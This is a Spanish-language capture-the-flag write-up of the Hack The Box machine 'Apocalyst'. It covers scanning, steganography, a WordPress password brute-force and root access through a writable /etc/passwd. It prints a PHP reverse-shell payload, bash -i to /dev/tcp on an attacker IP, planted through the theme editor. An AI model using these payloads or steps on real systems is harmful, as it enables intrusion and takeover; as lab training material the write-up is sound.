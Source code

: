 ## Apocalyst

---

![image](images/20250529101702.png)

###### Técnicas demostradas:

- Wordpress Enumeration
- Image Stego Challenge - Steghide
- Information Leakage - User Enumeration
- WordPress Exploitation - Theme Editor (RCE)
- Abusing misconfigured permissions (Privilege Escalation)

---

En primer lugar realizamos un escaneo de en busca de puertos abiertos en la máquina víctima.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.46 -oG allPorts
```

![image](images/20250529102213.png)

Realizamos un escaneo más profundo sobre los puertos encontrados para tratar de listar el servicio y la versión que está corriendo.

```bash
nmap -p22,80 -sCV 10.10.10.46 -oN targeted
```

![image](images/20250529102259.png)

Mediante `nmap` realizamos un escaneo sobre el puerto `80` con el script `http-enum` para tratar de listar información de directorios existentes.

```bash
nmap --script http-enum -p80 10.10.10.46 -oN WebScan
```

![image](images/20250529102422.png)

Añadimos el dominio a nuestro fichero `/etc/hosts`

![image](images/20250529102457.png)

Mediante la herramienta `WhatWeb` terminamos de listar información del servidor web.

```bash
whatweb apocalyst.htb
```

![image](images/20250529102532.png)

Revisamos mediante el navegador que tenemos en el puerto `80`

![image](images/20250529102655.png)

Observamos que nos encontramos ante un `WordPress` del cual sacamos información de un potencial usuario.

![image](images/20250529102713.png)

Revisamos uno de los directorios listados por `Nmap`, en su interior encontramos una imagen.

![image](images/20250529103529.png)

Descargamos esta imagen para ver si esconde algo mediante esteganografía.

```bash
wget http://apocalyst.htb/custom/image.jpg
```

![image](images/20250529103615.png)

Pero no encontramos nada. Mediante el uso de la herramienta `cewl` vamos a crear un diccionario de posibles rutas con las que poder acceder a más recursos.

```bash
cewl -w diccionario.txt http://apocalyst.htb
```

![image](images/20250529104405.png)

Una vez guardado el diccionario, mediante la herramienta `wfuzz` realizamos un escaneo en busca de posibles rutas existentes.

```bash
wfuzz -c -L --hh=157 --hc=404 -t 20 -w /home/jota/Descargas/HTB/Apocalyst/content/diccionario.txt http://apocalyst.htb/FUZZ
```

![image](images/20250529104717.png)

Revisamos en el navegador que tenemos en el directorio que hemos listado. Vemos que nos encontramos con la misma imagen en un principio.

![image](images/20250529104742.png)

De igual manera descargamos esta imagen para revisar si oculta algo.

```bash
wget http://apocalyst.htb/Rightiousness/image.jpg
```

![image](images/20250529104924.png)

Con la herramienta `steghide` revisamos si tenemos algo en su interior.

```bash
steghide info image.jpg
```

![image](images/20250529105221.png)

La imagen contiene un archivo `list.txt`. Mediante `steghide` podemos extraer este fichero, dejando como salvoconducto una cadena vacía, ya que no disponemos de ninguna.

```bash
steghide extract -sf image.jpg
```

![image](images/20250529105256.png)

Revisamos el contenido, el cual puede servirnos como diccionario de potenciales contraseñas para el usuario listado en `WordPress`

```bash
cat list.txt
```

![image](images/20250529105326.png)

Accedemos al panel de autenticación de `WordPress`

![image](images/20250529105732.png)

Pero para automatizarlo, haremos uso de la herramienta `wpscan` obteniendo así la contraseña del usuario.

```bash
wpscan --url http://apocalyst.htb -U falaraki -P list.txt
```

![image](images/20250529110909.png)

Accedemos con estas credenciales al panel de administración de `Wordpress`. En la información del usuario observamos que es el usuario admin.

![image](images/20250529110931.png)

Uno de los ataques más comunes en `WordPress` es la creación de una reverse-shell mediante la modificación de una plantilla dentro del editor de temas.

![image](images/20250529111104.png)

Usaremos por ejemplo la plantilla del _Error 404_ por ejemplo.

![image](images/20250529111234.png)

Sustituimos todo su contenido por el siguiente y guardamos los cambios:

```php
<?php
	system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/443 0>&1'")
?>
```

![image](images/20250529111409.png)

Nos ponemos a la escucha en nuestra máquina por el puerto indicado y hacemos una petición a la página que hemos modificado.

```bash
nc -nlvp 443
curl "http://apocalyst.htb/?p=404.php"
```

![image](images/20250529111715.png)

Una vez dentro de la máquina, encontramos la flag en el directorio personal del usuario.

![image](images/20250529111929.png)

#### Escalada de privilegios

Después de revisar permisos `sudo`, `SUID`, `capabilities` y `cron`, hacemos una búsqueda de archivos con permiso de escritura, aplicando un filtro para ocultar los resultados no deseados. Observamos que curiosamente el archivo `/etc/passwd` tiene permisos de escritura para `others`

```bash
find / -writable 2>/dev/null | grep -vE "/var|/run|/dev|tmp|/lib|/proc|/sys"
```

![image](images/20250529112747.png)

Lo que tenemos que hacer en este punto sería modificar el contenido del `/etc/passwd` para cambiar la `x` (apunta al `/etc/shadow`) del usuario `root` por una contraseña en texto plano. Esta contraseña debemos pasarla en el formato de algoritmo definido en `/etc/login.defs`, que en nuestro caso es _SHA256_. Teniendo todo esto en cuenta usaremos `openssl` para poner la contraseña que nosotros queramos, por ejemplo `test` obteniendo la cadena con el algoritmo de cifrado.

```bash
openssl passwd
```

![image](images/20250529113004.png)

Sustituiremos esta cadena por la `x` del usuario root en el fichero `/etc/passwd`

![image](images/20250529113101.png)

Ya podemos ler la flag root.txt.

![image](images/20250529113129.png)

![image](images/20250529113150.png)
